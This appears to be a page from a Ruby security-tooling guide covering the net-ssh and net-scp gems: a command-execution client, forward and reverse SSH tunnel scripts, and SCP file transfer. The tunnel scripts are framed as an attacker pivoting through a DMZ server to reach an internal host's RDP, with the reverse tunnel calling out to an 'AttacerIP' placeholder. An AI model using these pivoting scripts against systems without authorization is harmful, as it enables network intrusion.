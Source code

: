 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```

## Simple SSH command execution 
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```


## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



